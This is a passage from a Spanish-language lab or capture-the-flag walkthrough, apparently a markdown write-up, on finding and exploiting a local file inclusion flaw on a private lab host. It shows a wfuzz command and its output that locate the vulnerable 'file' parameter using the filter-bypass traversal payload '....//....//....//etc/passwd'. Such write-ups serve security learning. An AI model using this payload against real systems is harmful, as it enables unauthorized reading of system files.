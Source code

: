 Esto nos da a entender, que es posible que se esté aplicando una sanitización o un filtro en las peticiones de este archivo, por lo que sería bueno utilizar ofuscación en nuestras peticiones.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="fuzzLFI">Aplicando Fuzzing para Encontrar Parámetro Correcto Utilizando Payload de LFI</h2>

Podemos intentar con los ejemplos de **LFI** que nos muestra **HackTricks**:
* <a href="https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html?highlight=LFI#basic-lfi-and-bypasses" target="_blank">HackTricks: File Inclusion / Path Traversal - Basic LFI and bypasses</a>

Probemos estos payloads con la herramienta **wfuzz**.

Probando varios de estos, solamente uno es el que funciona, siendo `....//....//....//etc/passwd`.

Observa:
```bash
wfuzz -c --hc=404 --hh=26574 -t 200 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt http://192.168.1.190/agua.php?FUZZ=....//....//....//etc/passwd
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.1.190/agua.php?FUZZ=....//....//....//etc/passwd
Total requests: 87664

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000758:   200        507 L    1588 W     27943 Ch    "file"                                                                                                                       

Total time: 253.3973
Processed Requests: 87664
Filtered Requests: 87663
Requests/sec.: 345.9546
```

Probándolo en la página y **BurpSuite**, podemos ver que si funciona:

<p align="center">